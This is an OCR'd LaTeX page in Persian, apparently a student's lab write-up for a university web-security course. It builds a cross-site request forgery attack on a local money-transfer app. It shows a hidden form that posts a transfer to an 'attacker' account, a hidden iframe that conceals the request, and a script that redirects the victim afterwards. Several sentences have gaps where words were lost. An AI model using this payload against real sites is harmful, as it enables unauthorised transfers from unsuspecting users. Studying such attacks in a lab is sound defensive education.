 \documentclass[]{article}
\begin{document}
\section*{قسمت دوم}
در ابتدا یک
در صفحه‌ی
تعریف می‌کنیم به طوری که دقیقا پارامتر‌های فرم انتقال پول در سایت اصلی را داشته باشد و
آن دقیقا آدرس خود وبسایت باشد. همچنین تمامی فیلد‌ها را پنهان می‌کنیم. فعلا فرم به صورت زیر است:
\begin{latin}
\begin{lstlisting}[language=html]
<form name="transfer_form" action="http://localhost:3000/post_transfer" method="post">
    <input hidden="true" type="text" name="destination_username" value="attacker">
    <input hidden="true" type="text" name="quantity" value="10">
</form>
\end{lstlisting}
\end{latin}
اما مشکلی که در حال حاضر وجود دارد این است که در صورتی که فرم را سابمیت بکنیم خود صفحه‌ی
مرورگر به همان سایت
می‌رود. برای حل کردن این مشکل با توجه به
یک
تعریف می‌کنیم و
فرم را همان
قرار می‌دهیم به صورتی که انگار در همان
درخواست فرستاده می‌شود. همچنین
را نیز پنهان می‌کنیم طوری که کاربر آن‌را نبیند. کد در حال حاضر به صورت زیر است:
\begin{latin}
\begin{lstlisting}[language=html]
<form target="transfer_frame" name="transfer_form" action="http://localhost:3000/post_transfer" method="post">
    <input hidden="true" type="text" name="destination_username" value="attacker">
    <input hidden="true" type="text" name="quantity" value="10">
</form>
<iframe hidden="true" name="transfer_frame"></iframe>
\end{lstlisting}
\end{latin}
در نهایت نیز باید به صورتی تشخیص دهیم که کی فرم سابمیت می‌شود. برای این کار من راه خوبی پیدا نکردم.
یکی از کار‌هایی که به ذهنم رسید این بود که چک کنم چند بار
لود شده است. بار اولی که صفحه باز می‌شود قبل از فرستادن فرم یک بار لود می‌شود و بار دیگر بعد از ارسال فرم.
پس به کمک کد
زیر می‌توان این کار را چک کرد:
\begin{latin}
\begin{lstlisting}[language=html]
<script>
    var times_loaded = 0;
    function iframe_loaded() {
        times_loaded++;
        if (times_loaded == 2)
            window.location.replace("https://sharif.edu/~kharrazi/courses/40441-011/");
    }
</script>
<iframe hidden="true" name="transfer_frame" onload="iframe_loaded()"></iframe>
\end{lstlisting}
\end{latin}
\end{document}
